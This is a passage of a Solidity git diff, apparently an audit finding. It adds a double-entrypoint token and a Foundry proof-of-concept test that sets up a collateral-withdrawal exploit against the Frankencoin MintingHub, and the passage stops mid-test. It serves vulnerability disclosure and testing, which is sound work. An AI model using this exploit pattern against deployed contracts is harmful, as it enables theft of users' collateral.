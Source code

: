 ```diff
+        onlyDelegateFrom
+        returns (bool)
+    {
+        _transfer(origSender, to, value);
+        return true;
+    }
+
+    function delegateBalanceOf(address account) public view override onlyDelegateFrom returns (uint256) {
+        return balanceOf(account);
+    }
+}
diff --git a/test/GeneralTest.t.sol b/test/GeneralTest.t.sol
index 402416d..9ce13cd 100644
--- a/test/GeneralTest.t.sol
+++ b/test/GeneralTest.t.sol
@@ -14,6 +14,7 @@ import "../contracts/MintingHub.sol";
 import "../contracts/PositionFactory.sol";
 import "../contracts/StablecoinBridge.sol";
 import "forge-std/Test.sol";
+import {LegacyToken, DoubleEntryPoint} from "./DoubleEntryERC20.sol";
 
 contract GeneralTest is Test {
 
@@ -24,6 +25,8 @@ contract GeneralTest is Test {
     TestToken col;
     IFrankencoin zchf;
 
+    LegacyToken legacy;
+    DoubleEntryPoint doubleEntry;
     User alice;
     User bob;
 
@@ -35,10 +38,41 @@ contract GeneralTest is Test {
         hub = new MintingHub(address(zchf), address(new PositionFactory()));
         zchf.suggestMinter(address(hub), 0, 0, "");
         col = new TestToken("Some Collateral", "COL", uint8(0));
+        legacy = new LegacyToken();
+        doubleEntry = new DoubleEntryPoint(address(legacy));
         alice = new User(zchf);
         bob = new User(zchf);
     }
 
+    function testPoCWithdrawDoubleEntrypoint() public {
+        alice.obtainFrankencoins(swap, 1000 ether);
+        emit log_named_uint("alice zchf balance before opening position", zchf.balanceOf(address(alice)));
+        uint256 initialAmount = 100 ether;
+        doubleEntry.mint(address(alice), initialAmount);
+        vm.startPrank(address(alice));
+        doubleEntry.approve(address(hub), initialAmount);
+        uint256 balanceBefore = zchf.balanceOf(address(alice));
+        address pos = hub.openPosition(address(doubleEntry), 100, initialAmount, 1000000 ether, 100 days, 1 days, 25000, 100 * (10 ** 36), 200000);
+        require((balanceBefore - hub.OPENING_FEE()) == zchf.balanceOf(address(alice)));
+        vm.warp(Position(pos).cooldown() + 1);
+        alice.mint(pos, initialAmount);
+        vm.stopPrank();
+        emit log_named_uint("alice zchf balance after opening position and minting", zchf.balanceOf(address(alice)));
+
+        uint256 legacyAmount = 1;
+        legacy.mint(address(alice), legacyAmount);
```